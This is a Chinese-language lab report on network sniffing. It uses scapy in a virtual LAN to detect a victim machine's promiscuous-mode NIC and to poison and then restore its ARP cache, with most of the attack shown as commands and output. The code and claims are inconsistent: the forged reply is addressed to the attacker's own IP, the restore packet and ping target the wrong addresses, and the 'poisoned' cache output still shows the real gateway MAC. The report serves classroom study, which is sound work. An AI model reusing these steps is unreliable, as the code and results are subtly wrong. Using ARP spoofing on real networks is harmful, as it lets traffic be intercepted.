

# 网络监听


网络中的节点基本信息如下：

- 攻击者主机
  - 08:00:27:bd:92:09 / eth0
  - 172.16.111.102
- 受害者主机
  - 08:00:27:bc:a6:92 / eth0
  - 172.16.111.127
- 网关
  - 08:00:27:2a:4b:04 / enp0s9
  - 172.16.111.1

## 实验准备

### 安装 `scapy`

在攻击者主机上提前安装好 [`scapy`](https://scapy.net/)。

```bash
# 安装 python3
sudo apt update && sudo apt install python3 python3-pip

# ref: https://scapy.readthedocs.io/en/latest/installation.html#latest-release
pip3 install scapy[complete]
```

## 实验一：检测局域网中的异常终端

```bash
# 在受害者(victim)主机上检查网卡的「混杂模式」是否启用
ip link show eth0
# 2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP mode DEFAULT group default qlen 1000
#     link/ether 08:00:27:bc:a6:92 brd ff:ff:ff:ff:ff:ff
```


```bash
# 在攻击者(attacker)主机上开启 scapy
sudo scapy

# 在 scapy 的交互式终端输入以下代码回车执行
pkt = promiscping("172.16.111.127")
```


```bash
# 回到受害者(victim)主机上开启网卡的『混杂模式』
# 注意上述输出结果里应该没有出现 PROMISC 字符串
# 手动开启该网卡的「混杂模式」
sudo ip link set eth0 promisc on

# 此时会发现输出结果里多出来了 PROMISC 
ip link show eth0
# 2: eth0: <BROADCAST,MULTICAST,PROMISC,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP mode DEFAULT group default qlen 1000
#     link/ether 08:00:27:bc:a6:92 brd ff:ff:ff:ff:ff:ff

```


```bash
# 回到攻击者主机上的 scapy 交互式终端继续执行命令
# 观察两次命令的输出结果差异
pkt = promiscping("172.16.111.127")

# 在受害者主机上
# 手动关闭该网卡的「混杂模式」
sudo ip link set eth0 promisc off
```


## 实验二：手工单步“毒化”目标主机的 ARP 缓存

以下代码在攻击者主机上的 `scapy` 交互式终端完成。

```bash
# 获取当前局域网的网关 MAC 地址
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")

# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()

# ###[ Ethernet ]###
#   dst= ff:ff:ff:ff:ff:ff
#   src= 08:00:27:bd:92:09
#   type= ARP
# ###[ ARP ]###
#      hwtype= 0x1
#      ptype= IPv4
#      hwlen= None
#      plen= None
#      op= who-has
#      hwsrc= 08:00:27:bd:92:09
#      psrc= 172.16.111.102
#      hwdst= 00:00:00:00:00:00
#      pdst= 172.16.111.1

```


```bash
# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)

# 网关 MAC 地址如下:08:00:27:2a:4b:04
gw_mac = recved[0][0][1].hwsrc


# 伪造网关的 ARP 响应包
# 准备发送给受害者主机 172.16.111.127
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
arpspoofed=ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.102", hwdst="08:00:27:2a:4b:04")

# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)
```




此时在受害者主机上查看 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址

```bash
ip neigh
# 172.16.111.1 dev eth0 lladdr 08:00:27:2a:4b:04 STALE
# 172.16.111.102 dev eth0 lladdr 08:00:27:bd:92:09 STALE
```

回到攻击者主机上的` scapy` 交互式终端继续执行命令。

```python
# 恢复受害者主机的 ARP 缓存记录
## 伪装网关给受害者发送 ARP 响应
restorepkt1 = ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:2a:4b:04", pdst="172.16.111.172", hwdst="08:00:27:bc:a6:92")
sendp(restorepkt1, count=100, inter=0.2)
```


此时在受害者主机上准备“刷新”网关 ARP 记录。

```bash
## 在受害者主机上尝试 ping 网关
ping 192.168.0.1
## 静候几秒 ARP 缓存刷新成功，退出 ping
## 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
ip neigh
```


## 实验中遇到的问题

- 在进行实验一的过程中，更改了受害者（victim)的地址，导致攻击者主机重新执行`pkt = promiscping("172.16.111.114")`命令时结果不变（`172.16.111.114`为修改前的受害者主机地址）。


## 参考资料

- [第四章 网络监听](https://c4pr1c3.github.io/cuc-ns/)